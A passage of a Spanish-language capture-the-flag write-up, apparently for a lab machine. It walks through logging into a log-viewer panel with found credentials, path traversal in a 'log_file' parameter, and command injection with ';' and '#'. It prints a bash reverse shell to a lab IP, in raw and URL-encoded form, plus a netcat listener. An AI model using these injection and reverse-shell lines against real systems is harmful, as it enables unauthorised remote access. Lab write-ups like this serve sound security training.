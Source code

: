 A continuación desde nuestro host de ataque accedemos a este servicio y encontramos un panel de autenticación HTTP básica. Al probar con las credenciales amay:mychemicalromance logramos acceder:


![[Pasted image 20250512142229.png]]

## Explotación

No hallamos nada relevante a priori, pero sí que hay un combo que permite seleccionar el archivo del cuál quieres leer el log, vamos a revisar cómo se está realizando la petición interceptándola con Burp Suite y comprobamos que el parámetro log_file no está debidamente sanitizado y que es vulnerable a path traversal:

![[Pasted image 20250512142351.png]]

Sin embargo no podemos leer otros archivos, parece que se está aplicando algún tipo de filtrado. Podemos usar el carácter ; en combinación con # para evadir estos filtros de la siguiente forma:

```
log_file=/etc/passwd;whoami #&analyze_log=
```

![[Pasted image 20250512151401.png]]

De esta forma vemos que además de listar el contenido del fichero /etc/passwd también se ejecuta el comando whoami.

Podríamos aprovechar esto para ganar una reverse shell  de la siguiente forma:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.45/4444 0>&1'
```

Aunque necesitaremos codificarla como URL

```
log_file=/etc/passwd; bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.6/4444+0>%261' #&analyze_log=
```

Iniciamos el listener y a continuación lanzamos la petición:

```bash
nc -nlvp 4444
```

![[Pasted image 20250512153512.png]]

![[Pasted image 20250512153531.png]]

### Opción alternativa, sin usar reverse shell

Como alternativa, podemos generar un par de claves ssh usando la herraienta ssh-keygen sin definir contraseña:

```bash
sudo ssh-keygen -t rsa -b 4096 -f /root/.ssh/id_rsa -N ""
```
